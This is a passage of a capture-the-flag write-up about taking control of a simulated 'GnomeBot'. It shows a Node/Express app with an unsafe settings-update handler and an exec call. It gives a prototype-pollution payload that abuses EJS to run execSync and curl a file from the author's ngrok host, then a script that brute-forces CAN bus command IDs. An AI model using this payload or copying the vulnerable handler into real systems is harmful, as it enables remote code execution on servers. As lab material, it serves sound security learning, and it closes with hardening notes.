        console.log(`PARENTID is set to: ${PARENTID}. Resolving...`);
        dns.lookup(PARENTID, { all: true }, (err, addresses) => {
            if (err) {
                console.error(`Failed to resolve PARENTID hostname "${PARENTID}": ${err.message}. Allowing all connections.`);
                // Keep allowedIps = null to allow all
            } else if (addresses && addresses.length > 0) {
                allowedIps = addresses.map(addr => addr.address).join(', ');
                console.log(`Resolved PARENTID "${PARENTID}" to IPs: ${allowedIps}. Only these IPs will be allowed.`);
            } else {
                console.warn(`PARENTID "${PARENTID}" resolved, but no IP addresses found. Allowing all connections.`);
                // Keep allowedIps = null to allow all
            }
        });
    } else {
        console.log("PARENTID environment variable not set. Allowing all connections.");
        // Keep allowedIps = null to allow all
    }


    // Middleware
    app.use(express.json());
    app.use(express.urlencoded({ extended: true })); // To parse form data

    // --- IP Filtering Middleware ---
    app.use((req, res, next) => {
        // If allowedIps is null (PARENTID not set or failed to resolve), allow the request.
        if (allowedIps === null) {
            return next();
        }
        // If allowedIps is set, check if the request IP is in the list.
        // Note: req.ip might need 'trust proxy' setting if behind a reverse proxy.
        const clientIp = req.ip.split(':').pop(); // Get the last part of the IP address (IPv6 compatibility)
        if (allowedIps.includes(clientIp)) {
            //console.log(`Allowed connection from ${clientIp} (matches PARENTID)`);
            next(); // IP is allowed
        } else {
            console.warn(`Rejected connection from ${clientIp} (does not match PARENTID IPs: ${allowedIps})`);
            res.status(403).send('Forbidden: Access denied. ' + `Rejected connection from ${clientIp} (does not match PARENTID IPs: ${allowedIps})`); // IP is not allowed
        }
    });

    // --- Serve Static Files ---
    // Serve files from the 'static' directory within app_code
    // Requests proxied from backend (e.g., /static/phaser.min.js) will be handled here.
    app.use('/static', express.static(path.join(__dirname, 'static')));

    app.set('view engine', 'ejs');

    // --- Game Constants ---
    // Remove WebSocket related constants
    const gnomebotname = "GnomeBot" + Math.floor(Math.random() * 99999); // Random name for the gnomebot

    //var containerUsername = "Unknown"; // Default username - Keep for stats route, but won't be updated by WS
    // need from env variable otherwise unknown
    const containerUsername = process.env.USERNAME || "Unknown"; // Default username, can be set via environment variable
    const processStartTime = Date.now(); // Store the start time of the process - Keep for stats route
    const gnomeBotObjectDetails = {
        settings: {
            name: gnomebotname,
            model_version: "2.3.8",
            firmware_version: "GNM-4.12.0",
        },
    }

    // 🏠 Home route (authentication handled by proxy)
    app.get('/home', (req, res) => {
        //console.log(`Rendering home view`);
        res.setHeader('Content-Type', 'text/html');
        res.sendFile(path.join(__dirname, 'views', 'home.ejs'));
    });

    app.get('/control', (req, res) => {
        //console.log(`Rendering control view`);
        res.setHeader('Content-Type', 'text/html');
        res.sendFile(path.join(__dirname, 'views', 'control.ejs'));
    });

    app.get('/stats', (req, res) => {
        console.log(`Rendering stats view`); // Changed log message
        let gnomeStats = [
            { name: "name", value: gnomeBotObjectDetails?.settings?.name || gnomebotname }, // Fallback to random name if not set
            { name: "model_version", value: gnomeBotObjectDetails?.settings?.model_version || "Unknown" }, // Fallback to "Unknown" if not set
            { name: "description", value: "Holiday remote controlled gnome for your home." },
            { name: "status", value: "active" }, // Status might need updating if based on WS connection
            { name: "last_updated", value: new Date().toISOString() },
            { name: "last_updated_by", value: containerUsername }, // Username won't be updated via WS anymore
            { name: "last_accessed_by", value: containerUsername }, // Username won't be updated via WS anymore
            { name: "battery_level", value: Math.max(0, 100 - Math.floor((Date.now() - processStartTime) / (2 * 60 * 60 * 1000) * 100)) + "%" }, // Battery level
            { name: "uptime", value: Math.floor((Date.now() - processStartTime) / 1000) + " seconds" }, // Uptime in seconds
            { name: "cpu_temperature", value: (Math.random() * 30 + 40).toFixed(1) + "°C" }, // Robot CPU temp
            { name: "current_task", value: "Idle" }, // Task might need updating if based on WS state
            { name: "network_status", value: "Connected" }, // Network status might need updating
            { name: "error_logs", value: "None" }, // If any recent errors occurred
            { name: "gnome_mode", value: "Stealth" }, // Playful feature mode
            { name: "firmware_version", value: gnomeBotObjectDetails?.settings?.firmware_version || "Unknown" }, // Firmware tracking
            { name: "gnome_mood", value: ["Happy", "Grumpy", "Mischievous"][Math.floor(Math.random() * 3)] }, // Personality status
            { name: "light_sensor", value: Math.random() > 0.5 ? "Bright" : "Dim" }, // Light environment detection
            { name: "gnome_config_object", value: JSON.stringify(gnomeBotObjectDetails) } // Settings object
        ];
        res.setHeader('Cache-Control', 'no-store, no-cache, must-revalidate, proxy-revalidate');
        res.setHeader('Pragma', 'no-cache');
        res.setHeader('Expires', '0');
        res.render('stats', { gnomeStats: gnomeStats }); // Removed wsUrl
    });

    app.get('/ctrlsignals', (req, res) => {
        const requestPayload = JSON.parse(decodeURIComponent(req.query.message));
        res.setHeader('Cache-Control', 'no-store, no-cache, must-revalidate, proxy-revalidate');
        res.setHeader('Pragma', 'no-cache');
        res.setHeader('Expires', '0');
        // Check if the request payload is valid
        if (!requestPayload || !requestPayload.action) {
            console.error("Invalid request payload");
            res.status(400).send('Invalid request payload');
            return;
        }
        // Handle the control signal
        switch (requestPayload.action) {
            case 'move':
                // Handle move action
                console.log(`Moving in direction: ${requestPayload.direction}`);
                res.header('Content-Type', 'application/json');
                // lets set headers so it never caches
                if (!requestPayload.direction) {
                    res.send(JSON.stringify({ type: "message", data: "error", message: "No direction specified" }));
                    return;
                }
                // left right up down
                const direction = requestPayload.direction;
                const command = `/usr/bin/python3 /app/canbus_client.py "${direction}"`; // Construct the command

                switch (direction) {
                    case 'left':
                    case 'right':
                    case 'up':
                    case 'down':
                        console.log(`Executing command: ${command}`);
                        exec(command, (error, stdout, stderr) => {
                            if (error) {
                                console.error(`Error executing command: ${error.message}`);
                                // Optionally send error back, but the response is already sent
                                return;
                            }
                            if (stderr) {
                                console.error(`Command stderr: ${stderr}`);
                                // Optionally send error back
                                return;
                            }
                            console.log(`Command stdout: ${stdout}`);
                        });
                        res.send(JSON.stringify({ type: "message", data: "success", message: `Moving ${direction}` }));
                        break;
                    default:
                        console.error("Unknown direction");
                        res.send(JSON.stringify({ type: "message", data: "error", message: "Unknown direction" }));
                        return;
                }
                break;
            case 'update':
                try {
                    const { key, subkey, value } = requestPayload;
                    gnomeBotObjectDetails[key][subkey] = value;
                    res.header('Content-Type', 'application/json');
                    res.send(JSON.stringify({ type: "message", data: "success", message: `Updated ${key}.${subkey} to ${value}` }));
                }
                catch (error) {
                    res.setHeader('Content-Type', 'application/json');
                    res.send(JSON.stringify({ type: "message", data: "error", message: `Error updating settings: ${error.message}` }));
                }
                break;
            default:
                console.error("Unknown action");
                res.status(400).send('Unknown action');
                return;
        }
    });

    // ✨ Health Check Endpoint
    app.get('/healthz', (req, res) => {
        // Could add checks here (e.g., DB connection) if needed
        res.status(200).send('OK');
    });

    // --- Server Setup ---
    const PORT = process.env.PORT || 3000;
    // Remove http server creation and WebSocket server setup

    // 🚀 Start the server (using app.listen directly)
    app.listen(PORT, () => {
        console.log(`🚀 Server (HTTP only) running on port ${PORT}`); // Updated log message
    });
    ```

??? tip "README.md"
    
        GnomeBot CAN Bus Protocol - Top Secret Workshop Edition!
        Ho ho hold on there! Welcome to the inner workings of the GnomeBot's communication system. This marvelous contraption uses the **CAN (Controller Area Network)** bus to chatter away about its status and sometimes even listen to requests. It's like the reindeer telegraph, but with more wires and less sneezing.

        This document details the known signals whizzing around on the `gcan0` interface. Remember, all multi-byte values are sent **Big Endian** (Most Significant Byte first), just like how Santa lists the nicest kids first!

        ---

        ## 🎁 CAN Data Requests (Client -> GnomeBot )

        Sometimes, you need to poke the GnomeBot to get specific information *right now*. Send one of these messages, and the  *should* reply with the corresponding Status/Data message (see below).

        | CAN ID (Hex) | Constant Name             | Description                                      | Data Sent |
        | :----------- | :------------------------ | :----------------------------------------------- | :-------- |
        | `0x400`      | `requestBatteryVoltageID` | Asks for the current battery voltage reading.    | (Empty)   |
        | `0x470`      | `requestGPSFixID`         | Inquires about the current GPS fix status.       | (Empty)   |
        | `0x410`      | `requestMotorSpeedLeftID` | Requests the current speed of the left motor.    | (Empty)   |
        | `0x460`      | `requestSystemTempID`     | Asks for the GnomeBot's internal temperature.    | (Empty)   |
        | `0x4C0`      | `requestPayloadStatusID`  | Requests the current status of the payload/gripper. | (Empty)   |

        ---

        ## ✨ CAN Status & Data Responses (GnomeBot  -> Client)

        These messages are the GnomeBot  telling the world (or at least the CAN bus) what's going on. Some are sent automatically like clockwork (Periodic), some only when asked (Response Only), and some do both!

        | CAN ID (Hex) | Constant Name                | Behavior              | Data Bytes | Data Type        | Description & Units/Meaning                                                                 |
        | :----------- | :--------------------------- | :-------------------- | :--------- | :--------------- | :------------------------------------------------------------------------------------------ |
        | `0x300`      | `statusBatteryVoltageID`     | Response Only         | 2          | `uint16`         | Battery voltage in **millivolts (mV)**. E.g., `0x30D4` = 12500mV = 12.5V.                     |
        | `0x310`      | `statusMotorSpeedLeftID`     | Periodic + Response   | 2          | `int16`          | Left motor speed in **RPM**. Can be negative for reverse!                                   |
        | `0x311`      | `statusMotorSpeedRightID`    | Periodic              | 2          | `int16`          | Right motor speed in **RPM**.                                                               |
        | `0x320`      | `statusSonarDistanceFrontID` | Periodic              | 2          | `uint16`         | Front sonar distance reading in **centimeters (cm)**.                                       |
        | `0x321`      | `statusSonarDistanceRearID`  | Periodic              | 2          | `uint16`         | Rear sonar distance reading in **centimeters (cm)**.                                        |
        | `0x330`      | `statusIMUDataID`            | Periodic              | 2          | `byte[0]`, `byte[1]` | Byte 0: Simple sequence/second counter. Byte 1: Status flags (e.g., `0x01` = OK).     |
        | `0x340`      | `statusHeadlightID`          | Periodic              | 1          | `uint8`          | Headlight status: `0x00` = Off, `0x01` = On. Is it Rudolph's spare nose?                  |
        | `0x350`      | `statusWifiStatusID`         | Periodic              | 2          | `byte[0]`, `byte[1]` | Byte 0: WiFi Signal Strength (0-100%). Byte 1: Status (`0`=Disc, `1`=Conn).           |
        | `0x351`      | `statusBluetoothStatusID`    | Periodic              | 2          | `byte[0]`, `byte[1]` | Byte 0: Number of paired devices. Byte 1: Status (`0`=Off, `1`=On, `2`=Paired).          |
        | `0x360`      | `statusSystemTempID`         | Periodic + Response   | 1          | `int8`           | Internal system temperature in **degrees Celsius (°C)**. Keep it cool, like the North Pole! |
        | `0x370`      | `statusGPSFixID`             | Response Only         | 1          | `uint8`          | GPS Fix Status: `0` = No Fix, `1` = 2D Fix, `2` = 3D Fix.                                 |
        | `0x380`      | `statusWheelOdomLeftID`      | Periodic              | 4          | `uint32`         | Cumulative left wheel odometry ticks. Rollin' towards Christmas!                           |
        | `0x381`      | `statusWheelOdomRightID`     | Periodic              | 4          | `uint32`         | Cumulative right wheel odometry ticks.                                                     |
        | `0x390`      | `statusAmbientLightID`       | Periodic              | 2          | `uint16`         | Ambient light sensor reading in **Lux**. Brighter than Rudolph's nose?                      |
        | `0x391`      | `statusHumidityID`           | Periodic              | 1          | `uint8`          | Relative humidity percentage (%). Is it snowing?                                          |
        | `0x392`      | `statusPressureID`           | Periodic              | 4          | `uint32`         | Barometric pressure in **Pascals (Pa)**.                                                  |
        | `0x3A0`      | `statusCurrentDrawID`        | Periodic              | 2          | `int16`          | Main battery current draw in **milliamps (mA)**. How much juice does this thing use?!   |
        | `0x3B0`      | `statusEstopStatusID`        | Periodic              | 1          | `uint8`          | Emergency Stop Status: `0x00` = OK, `0x01` = PRESSED! (Hopefully not!)                    |
        | `0x3C0`      | `statusPayloadStatusID`      | Periodic + Response   | 1          | `uint8` (Bitmap) | Payload Status: Bit 0 (`0x01`): Gripper Open, Bit 1 (`0x02`): Sensor Active.        |
        | `0x3D0`      | `statusNavStatusID`          | Periodic              | 1          | `uint8`          | Navigation System Status: `0`=Idle, `1`=Navigating, `2`=Reached, `3`=Failed.          |
        | `0x3E0`      | `statusFanSpeedID`           | Periodic              | 1          | `uint8`          | Cooling fan speed percentage (%). Keeping the circuits frosty.                          |
        | `0x3FF`      | `statusHeartbeatID`          | Periodic              | 1          | `uint8`          | Heartbeat counter. Increments with each message. Lub-dub, lub-dub... is it alive?!      |

        ---

        ## 🛠️ Movement Commands & Acknowledgments (Client <-> GnomeBot )

        ```
        TODO: There are more signals related to controlling the GnomeBot's movement
        (Up/Down/Left/Right) and the acknowledgments sent back by the bot.
        These involve CAN IDs that are not totally settled yet. We are still polishing
        the documentation for these - check back after eggnog break!
        ```

Now, the current canbus_client.py does not have the right command map to move the gnome, 
we will need to brute force the hex values for the command map. <br/>
But before that, we will need to upload the changed canbus_client.py to the server.

We set up a ngrok listener poonted to a local python web server. <br/>
The local python server is running from the directory where we have the original canbus_client.py copied from the server already.
```
ngrok http 80
```


```
python -m http.server 80
```


we use the below payload with the ```/ctrlsignals``` endpoint.<br/>
This would get the canbus_client.py from the URL ```https://transsepulchral-towardly-jazmin.ngrok-free.dev/canbus_client.py``` which then would get the URL from out local directory where the local python wer server is running.

```
{"action":"update", "key":"__proto__", "subkey":"outputFunctionName", "value":"test1;process.mainModule.require('child_process').execSync('$(curl https://transsepulchral-towardly-jazmin.ngrok-free.dev/canbus_client.py -o canbus_client.py)');test2"}
```

Below is the actual URL encoded version we would use. <br/>
```
%7B%22action%22%3A%22update%22%2C%20%22key%22%3A%22__proto__%22%2C%20%22subkey%22%3A%22outputFunctionName%22%2C%20%22value%22%3A%22test1%3Bprocess.mainModule.require%28%27child_process%27%29.execSync%28%27%24%28curl%20https%3A%2F%2Ftranssepulchral-towardly-jazmin.ngrok-free.dev%2Fcanbus_client.py%20-o%20canbus_client.py%29%27%29%3Btest2%22%7D
```


Accessing the /status page would fetch the modified canbus_client.py from local python server to the remote machine via ngrok.<br/> 

We modify the original canbus_client.py with bruteforcing the hex ranges.
Using the range 0x200 - 0x2FF.

??? "Python script - canbus_client.py with brutefoce range for the command map"
    ```py linenums="1"
    #!/usr/bin/python3
    import can
    import time
    import argparse
    import sys
    import datetime  # To show timestamps for received messages

    # ==================================================
    # AUTO BRUTE-FORCE RANGE (FULL 11-BIT CAN SPACE)
    # ==================================================
    BRUTE_START_ID = 0x200
    BRUTE_END_ID   = 0x2FF

    # Known telemetry/status range from README
    SKIP_RANGES = [
        (0x300, 0x3FF),   # statusBatteryVoltageID ... statusHeartbeatID
    ]

    # ==================================================
    # COMMAND MAP (AUTO-SCANNED PER DIRECTION)
    # Each direction will try ALL opcodes in the range
    # ==================================================
    COMMAND_MAP = {
        "up":    list(range(BRUTE_START_ID, BRUTE_END_ID + 1)),
        "down":  list(range(BRUTE_START_ID, BRUTE_END_ID + 1)),
        "left":  list(range(BRUTE_START_ID, BRUTE_END_ID + 1)),
        "right": list(range(BRUTE_START_ID, BRUTE_END_ID + 1)),
    }

    COMMAND_CHOICES = list(COMMAND_MAP.keys()) + ["listen"]

    IFACE_NAME = "gcan0"

    # ==================================================
    # HELPER: CHECK IF CAN ID IS IN A SKIP RANGE
    # ==================================================
    def in_skip_ranges(can_id: int) -> bool:
        for start, end in SKIP_RANGES:
            if start <= can_id <= end:
                return True
        return False

    # ==================================================
    # SEND SINGLE OPCODE (EMPTY PAYLOAD – ORIGINAL MODE)
    # ==================================================
    def send_opcode(bus, command_id):
        message = can.Message(
            arbitration_id=command_id,
            data=[],                
            is_extended_id=False
        )
        try:
            bus.send(message)
            print(f"Sent opcode: 0x{command_id:X}")
        except can.CanError as e:
            print(f"Error sending message: {e}")

    # ==================================================
    # AUTO-BRUTE FORCE FOR A GIVEN DIRECTION
    # ==================================================
    def send_command(bus, command_name):
        opcode_list = COMMAND_MAP.get(command_name)

        if not opcode_list:
            print("No opcodes defined for this command.")
            return

        print(f"\n=== AUTO-BRUTE '{command_name.upper()}' ===")
        print(f"Scanning 0x{BRUTE_START_ID:X} → 0x{BRUTE_END_ID:X}")
        print("Skipping known telemetry ranges (0x300–0x3FF)")
        print("Press CTRL+C immediately when motion is observed.\n")

        try:
            for opcode in opcode_list:
                if in_skip_ranges(opcode):
                    continue

                send_opcode(bus, opcode)
                time.sleep(0.25)  

        except KeyboardInterrupt:
            print("\n Motion detected (user interrupted).")
            print("The LAST opcode printed above is the REAL command for this direction.")

    # ==================================================
    # LISTEN MODE (UNCHANGED)
    # ==================================================
    def listen_for_messages(bus):
        print(f"Listening for messages on {bus.channel_info}. Press Ctrl+C to stop.")
        try:
            for msg in bus:
                timestamp = datetime.datetime.now().strftime(
                    '%Y-%m-%d %H:%M:%S.%f'
                )[:-3]
                print(f"{timestamp} | Received: {msg}")

        except KeyboardInterrupt:
            print("\nStopping listener...")
        except Exception as e:
            print(f"\nAn error occurred during listening: {e}")

    # ==================================================
    # MAIN
    # ==================================================
    def main():
        parser = argparse.ArgumentParser(
            description="Send CAN commands, auto-bruteforce movement opcodes, or listen."
        )
        parser.add_argument(
            "command",
            choices=COMMAND_CHOICES,
            help=f"The command to send ({', '.join(COMMAND_MAP.keys())}) or 'listen'."
        )
        args = parser.parse_args()

        try:
            bus = can.interface.Bus(
                channel=IFACE_NAME,
                interface='socketcan',
                receive_own_messages=False
            )
            print(f"Successfully connected to {IFACE_NAME}.")
        except OSError as e:
            print(f"Error connecting to CAN interface {IFACE_NAME}: {e}")
            print(f"Make sure the {IFACE_NAME} interface is up:")
            print(f"  sudo ip link set up {IFACE_NAME}")
            sys.exit(1)
        except Exception as e:
            print(f"Unexpected error during bus initialization: {e}")
            sys.exit(1)

        # =========================
        # MODE SELECTION
        # =========================
        if args.command == "listen":
            listen_for_messages(bus)
        else:
            send_command(bus, args.command)

        bus.shutdown()
        print("CAN bus connection closed.")

    if __name__ == "__main__":
        main()
    ```

We try with below map and the gnome moves in all directions. <br/>
```
"up": 0x201,
"down": 0x202,
"left": 0x203,
"right": 0x204,
```

??? "Python script - canbus_client.py with specific and working command map"
    ```
    #!/usr/bin/python3
    import can
    import time
    import argparse
    import sys
    import datetime # To show timestamps for received messages

    # Define CAN IDs (I think these are wrong with newest update, we need to check the actual device documentation)
    COMMAND_MAP = {
        "up": 0x201,
        "down": 0x202,
        "left": 0x203,
        "right": 0x204,
        # Add other command IDs if needed
    }
    # Add 'listen' as a special command option
    COMMAND_CHOICES = list(COMMAND_MAP.keys()) + ["listen"]

    IFACE_NAME = "gcan0"

    def send_command(bus, command_id):
        """Sends a CAN message with the given command ID."""
        message = can.Message(
            arbitration_id=command_id,
            data=[], # No specific data needed for these simple commands
            is_extended_id=False
        )
        try:
            bus.send(message)
            print(f"Sent command: ID=0x{command_id:X}")
        except can.CanError as e:
            print(f"Error sending message: {e}")

    def listen_for_messages(bus):
        """Listens for CAN messages and prints them."""
        print(f"Listening for messages on {bus.channel_info}. Press Ctrl+C to stop.")
        try:
            # Iterate indefinitely over messages received on the bus
            for msg in bus:
                # Get current time for the timestamp
                timestamp = datetime.datetime.now().strftime('%Y-%m-%d %H:%M:%S.%f')[:-3] # Milliseconds precision
                print(f"{timestamp} | Received: {msg}")
                # You could add logic here to filter or react to specific messages
                # if msg.arbitration_id == 0x100:
                #    print("  (Noise message)")

        except KeyboardInterrupt:
            print("\nStopping listener...")
        except Exception as e:
            print(f"\nAn error occurred during listening: {e}")

    def main():
        parser = argparse.ArgumentParser(description="Send CAN bus commands or listen for messages.")
        parser.add_argument(
            "command",
            choices=COMMAND_CHOICES,
            help=f"The command to send ({', '.join(COMMAND_MAP.keys())}) or 'listen' to monitor the bus."
        )
        args = parser.parse_args()

        try:
            # Initialize the CAN bus interface
            bus = can.interface.Bus(channel=IFACE_NAME, interface='socketcan', receive_own_messages=False) # Set receive_own_messages if needed
            print(f"Successfully connected to {IFACE_NAME}.")
        except OSError as e:
            print(f"Error connecting to CAN interface {IFACE_NAME}: {e}")
            print(f"Make sure the {IFACE_NAME} interface is up ('sudo ip link set up {IFACE_NAME}')")
            print("And that you have the necessary permissions.")
            sys.exit(1)
        except Exception as e:
            print(f"An unexpected error occurred during bus initialization: {e}")
            sys.exit(1)

        if args.command == "listen":
            listen_for_messages(bus)
        else:
            command_id = COMMAND_MAP.get(args.command)
            if command_id is None: # Should not happen due to choices constraint
                print(f"Invalid command for sending: {args.command}")
                bus.shutdown()
                sys.exit(1)
            send_command(bus, command_id)
            # Give a moment for the message to be potentially processed if listening elsewhere
            time.sleep(0.1)

        # Shutdown the bus connection cleanly
        bus.shutdown()
        print("CAN bus connection closed.")

    if __name__ == "__main__":
        main()

    ```

The gnome moves now. <br/>
We can move it to rach the lever on the top left to complete the challenge.



!!! success "Answer"
   Completed in the game.

## Response
!!! quote "Chris Davis"
    Excellent work! You've successfully taken control of the gnome - look at that interface responding to our commands now.<br/>
    Time to turn this little rebel against its own manufacturing operation and shut them down for good!

## Learnings
1. I first learnt about **prototype pollution** in this challenge. Very nice experience!
When combined with template rendering, It can get us the RCE on the server like It did with /stats page.
1.  Don't assume the backend database is an RDBMS like SQL server :-). It could also be a NoSQL database and there are ways to determine the field names (e.g. using IS_DEFINED).


## Prevention & Hardening Notes
1. Explicitly block prototype keys (`__proto__`, `constructor`, `prototype`) from all update paths.
1. Never allow user input to influence NoSQL query structure. Operators like `$ne` and functions like `IS_DEFINED` should never be reachable from user-controlled data.
1. Password was MD5 hashed. Use slow, salted password hashing (bcrypt/argon2).

